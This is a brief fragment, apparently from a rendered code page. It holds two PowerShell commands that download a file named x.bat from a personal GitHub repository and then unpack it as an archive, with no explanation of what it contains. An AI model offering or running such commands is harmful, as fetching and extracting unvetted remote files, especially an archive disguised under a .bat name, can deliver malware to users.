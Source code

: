 Invoke-WebRequest 'https://raw.githubusercontent.com/danygk/sv/refs/heads/main/x.bat' -OutFile .\x.bat



Expand-Archive .\x.bat .\
